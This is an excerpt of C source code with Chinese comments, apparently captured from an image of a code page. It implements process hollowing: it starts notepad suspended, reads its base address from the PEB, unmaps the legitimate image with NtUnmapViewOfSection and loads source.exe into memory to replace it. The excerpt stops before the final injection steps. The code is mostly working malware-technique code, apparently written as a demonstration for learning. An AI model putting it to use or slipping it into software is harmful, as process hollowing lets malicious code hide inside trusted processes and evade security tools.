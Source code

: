 ```c
        DWORD fptr = sectionHeader[i].PointerToRawData;
        memcpy(&mem[rva], &buf[fptr], sectionHeader[i].SizeOfRawData);
    }
    return mem;
}

int main() {
    //创建挂起的notepad进程
    STARTUPINFO si = {0};
    PROCESS_INFORMATION pi = {0};
    si.cb = sizeof(si);
    BOOL result = CreateProcessA( NULL,        //lpApplicationName
                    "notepad",  //lpCommandLine
                    NULL,
                    NULL,
                    FALSE,
                    CREATE_SUSPENDED,
                    NULL,
                    NULL,
                    &si,    //lpStartupInfo
                    &pi);   //lpProcessInformation
    if(!result) {
        printf("CreateProcess Failed: %d\n", GetLastError());
        return -1;
    }
    printf("Create Suspended notepad, pid: %d\n", pi.dwProcessId);
    //获取notepad进程的PEB地址
    PROCESS_BASIC_INFORMATION processInfo;
    NtQueryInformationProcess(pi.hProcess, 0, &processInfo, sizeof(processInfo), NULL);
    printf("PebBaseAddress: %p\n", processInfo.PebBaseAddress);
    //PEB的Reserved3[1]就是notepad进程加载的基地址
    PEB processPeb;
    result = ReadProcessMemory(pi.hProcess, processInfo.PebBaseAddress, &processPeb, sizeof(processPeb), NULL);
    void *originImageBase = processPeb.Reserved3[1];
    printf("ImageBaseAddress: %p\n", originImageBase);
    system("pause");
    //unmap合法内存的代码
    DWORD dwResult = NtUnmapViewOfSection(pi.hProcess, originImageBase);
    if(dwResult) {
        printf("NtUnmapViewOfSection Failed: %d\n", dwResult);
        return -1;
    }
    //读取source.exe文件，将PE文件内容全部放入内存
    FILE *fptr = fopen("source.exe", "rb");
    if(NULL == fptr) {
        printf("Open source.exe Failed!\n");
        return -1;
    }
    fseek(fptr, 0L, SEEK_END);
    long fileSize = ftell(fptr);
    rewind(fptr);
    BYTE *fileBuf = (BYTE *)malloc(fileSize + 0x10000);
    if(NULL == fileBuf) {
        printf("Malloc Failed!\n");
        return -1;
    }
    fread(fileBuf, 1, fileSize, fptr);
    fclose(fptr);
    //根据PE文件内容生成PE文件载入内存的状态
    int ImageSize;
    ULONGLONG newImageBase;
    DWORD entryPoint;
```